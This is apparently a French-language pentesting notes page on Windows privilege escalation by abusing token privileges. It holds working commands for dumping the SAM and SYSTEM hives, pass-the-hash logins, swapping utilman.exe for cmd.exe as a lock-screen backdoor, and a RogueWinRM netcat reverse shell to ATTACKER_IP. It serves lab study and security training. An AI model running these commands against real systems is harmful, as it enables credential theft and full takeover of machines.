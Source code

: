 Vérifiés ses privilèges :

```c
whoami /priv
```

Vous pouvez trouver une liste complètedes privilèges exploitables sur : [Priv2Admin](https://github.com/gtworek/Priv2Admin)

---
# SeBackup / SeRestore
Permettent aux utilisateurs de lire et d'écrire dans n'importe quel fichier du système, en ignorant toute DACL en place

Disposant de ce pouvoir, un attaquant peut élever de manière triviale les privilèges sur le système en utilisant de nombreuses techniques. Comme dumper SAM et SYSTEM pour extraire le hachage du mot de passe de l'administrateur local.


```c
reg save hklm\system C:\Users\THMBackup\system.bak
reg save hklm\sam C:\Users\THMBackup\sam.bak
```

Suivre [[Post Exploitation/Data Exfiltration/Windows#SMB|Windows Data Exfiltration - SMB]] pour telecharger les fichier `.bak`

Nous pouvons enfin utiliser le hachage de l'administrateur pour effectuer une attaque Pass-the-Hash et accéder à la machine cible avec les privilèges SYSTEM :

```sh
impacket-psexec -hashes LM_HASH:NT_HASH administrator@10.10.71.216
```

```
pth-winexe -U 'administrator%LMHASH:NTHASH' //@TARGET_IP cmd.exe
```

---
# SeTakeOwnership
Permet à un utilisateur de s'approprier n'importe quel objet du système, y compris les fichiers et les clés de registre

Nous allons abuser `utilman.exe`pour élever les privilèges. Utilman est une application Windows intégrée utilisée pour fournir des options de facilité d'accès pendant l'écran de verrouillage.

Pour remplacer utilman, on va commencer par s'en approprier :

```c
takeown /f C:\Windows\System32\Utilman.exe
```

Donner à l'utilisateur toutes les autorisations sur `utilman.exe` :

```c
icacls C:\Windows\System32\Utilman.exe /grant {USERNAME}:F
```

Après cela, nous remplacerons utilman.exe par une copie de cmd.exe :

```c
cd C:\Windows\System32\
copy cmd.exe utilman.exe
```

Pour déclencher utilman, :
- Verrouiller l'écran depuis le bouton démarrer
- cliquez sur le bouton "Ease of Access (Option d'ergonomie)"

---
# SeImpersonate / SeAssignPrimaryToken
Permettent à un processus de se faire passer pour d'autres utilisateurs et d'agir en leur nom. L'usurpation d'identité consiste à pouvoir générer un processus ou un thread dans le contexte de sécurité d'un autre utilisateur.

Si nous parvenons à prendre le contrôle d'un processus avec les privilèges `SeImpersonate` ou `SeAssignPrimaryToken`, nous pouvons usurper l'identité de n'importe quel utilisateur se connectant et s'authentifiant à ce processus.

Pour élever ses privilèges à l'aide de tels comptes, un attaquant a besoin des éléments suivants : 

1. Générer un processus afin que les utilisateurs puissent s'y connecter et s'y authentifier pour que l'usurpation d'identité se produise. 

2. Trouvez un moyen de forcer les utilisateurs privilégiés à se connecter et à s'authentifier auprès du processus malveillant généré.

> Si, pour une raison quelconque, le service WinRM ne s'exécute pas sur le serveur victime, un attaquant peut démarrer un faux service WinRM sur le port 5985 et intercepter la tentative d'authentification effectuée par le service BITS au démarrage

Si l'attaquant dispose des privilèges SeImpersonate, il peut exécuter n'importe quelle commande au nom de l'utilisateur qui se connecte, qui est SYSTEM.

1. Démarrer un écouteur netcat pour recevoir un shell inversé
2. Exécuter l'exploit

```sh
c:\Temp\RogueWinRM.exe -p "C:\Temp\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

[Exploit RogueWinRM](https://github.com/antonioCoco/RogueWinRM)


